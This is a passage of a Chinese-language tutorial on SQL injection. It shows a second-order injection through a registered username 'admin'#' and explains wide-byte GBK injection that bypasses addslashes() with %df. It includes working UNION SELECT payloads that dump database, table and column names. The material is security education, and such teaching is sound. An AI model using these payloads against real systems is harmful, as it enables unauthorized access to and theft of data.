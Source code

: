 

**例子**

注册用户名为：`admin'#`，再进行修改密码操作时进行SQL注入

```
UPDATE users SET password='123' where username='admin'#' and password='$password';
```



#### 7.宽字节注入

在宽字节注入页面中，程序获取GET参数ID,并对参数ID使用 addslashes()转义，然后拼接到SQL语句中，进行查询

**例如：**当访问 `id=1'` 时，执行的SQL代码是：`select * from users where id='1\''`。

**注意：**这里的1后面的单引号被转义符 `\` 转义了，造成我们无法注入。所以我们有两个思路。

1. **让斜杠（\）失去作用**

   思路就是借鉴程序员的防范思路，对斜杠（\）转义，使其失去转义单引号的作用，成为‘内容’

2. **让斜杠（\）消失**

   这个就是宽字节注入

![image-20210315100327](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210315100327.png)



由于数据库在数据库查询前执行了`set names 'GBK'`，导致两个连在一起的字符会被认为是汉字，我们可以在单引号前加一个字符，使其和斜杠（\）组合被认为成汉字，从未达到让斜杠消失的目的，进而使单引号发挥作用！

> 在GBK编码中，MySQL会认为两个字符是一个汉字（前一个字符的ASCII码要大于128，两个字符才能组合成汉字）
>
> 简单理解就是：注入参数里带入 `％df％27`，即可把 `％5C` （就是转义符）吃掉！

**使用条件：**

1. 使用addslashes()函数（并且开启GPC），或者使用iconv()进行编码转换
2. 数据库编码设置为GBK（php编码为 utf-8 或其他非GBK格式）
3. `%df'` 或者 `%df%27` 
4. `%5c'`或者 `%5c%27` 



爆库

```
%df' union select 1,database()--+	
```

爆表

```
1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

爆字段

```
1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273(这里为users的16进制表示)--+
```
